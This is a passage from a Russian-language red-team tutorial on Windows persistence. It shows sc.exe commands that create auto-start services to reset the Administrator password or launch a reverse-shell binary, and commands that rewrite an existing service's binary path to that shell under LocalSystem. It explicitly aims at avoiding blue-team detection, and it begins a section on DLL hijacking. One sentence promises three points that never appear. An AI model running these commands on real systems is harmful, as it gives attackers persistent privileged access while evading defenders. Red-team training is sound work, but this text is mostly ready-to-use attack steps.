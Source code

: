 Существует два основных способа abus'а службами для persistence:

### Create a new Service :
Мы можем создать наш service для запуска payload:

    sc.exe create EvilService binPath= “net user Administrator Passwd123” start= auto
    sc.exe start EvilService

или

    sc.exe create Evilservice2 binPath= “C:\windows\revshell.exe” start= auto
    sc.exe start Evilservice2

### Modifying the existing service :
Хотя создание новых служб для persistence работает достаточно эффективно, blue team может monitorить создание новых служб по всей сети.

Возможно, мы захотим повторно использовать существующую службу, а не создавать ее, чтобы избежать обнаружения. Вот как мы можем это сделать:

    # You can get a list of available services using this command
    sc.exe query state=all

    C:\> sc.exe qc Targetservice
    [SC] QueryServiceConfig SUCCESS

    SERVICE_NAME: Targetservice
            TYPE               : 10  WIN32_OWN_PROCESS
            START_TYPE         : 2 AUTO_START
            ERROR_CONTROL      : 1   NORMAL
            BINARY_PATH_NAME   : C:\MyService\Targetservice.exe
            LOAD_ORDER_GROUP   :
            TAG                : 0
            DISPLAY_NAME       : Targetservice
            DEPENDENCIES       :
            SERVICE_START_NAME : NT AUTHORITY\Local Service

Есть три вещи, о которых мы заботимся, когда используем службу для persistence:

Теперь давайте изменим binpath выбранной нами target service в соответствии с нашей payload

    C:\> sc.exe config Targetservice binPath= “C:\Windows\revshell.exe” start= auto obj= “LocalSystem”

## 9. Using Dll Hijacking
DLL hijacking - это метод, при котором payload injectится в search parameters приложения. 
Затем user пытается загрузить файл из этой directory, но вместо этого загружает зараженный DLL-файл. Таким образом, это может привести к прерыванию работы программы и злонамеренному управлению процессом ее запуска.

При запуске программы в память ее процесса загружается несколько библиотек DLL. Windows выполняет поиск библиотек DLL, которые требуются процессу, просматривая системные папки в определенном порядке. Перехват порядка поиска может быть использован в сценариях red teaming для persistence.
